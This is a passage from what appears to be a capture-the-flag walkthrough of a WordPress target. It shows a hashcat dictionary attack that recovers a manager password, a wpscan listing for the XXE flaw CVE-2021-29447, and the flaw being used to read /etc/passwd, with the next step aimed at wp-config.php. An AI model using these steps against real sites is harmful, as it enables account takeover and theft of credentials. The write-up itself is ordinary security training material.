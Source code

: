 Let's start hashcat:

```shell
$ hashcat -m 400 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
```
- `-m 400` set's the hash type to "phpass"
- `-a 0` set's the type of attach to a dictionary attack
- `-o cracked.txt` outputs the found passwords to the specified file

Fairly early on, we see that hashcat was able to crack the manager password: `partylikearockstar`. Let's login.

### CVE-2021-29447

From our wpscan output earlier, the following vulnerability was listed:

```
 | [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     Fixed in: 5.6.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/29378
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
 |      - https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
 |      - https://hackerone.com/reports/1095645
 |      - https://www.youtube.com/watch?v=3NBxcmqCgt4
```

Visiting [https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5) we can see an example of how to exploit it using a wav upload and serving a malicious DTD.

There's also a good example of a working exploit [here](https://github.com/motikan2010/CVE-2021-29447).

Using this XXE vulnerability, we can read files from the system that the user running the webserver has access to. Let's see what we can get access to.

**/etc/passwd**

```
...
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
...
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

Notice the `jnelson` user and the home dirs of the `proftpd` and `ftp` users. It would be nice to dump the `wp-config.php` file to get a fuller picture. Looking at the default nginx config we can determine the root dir.

**/etc/nginx/sites-enabled/default**
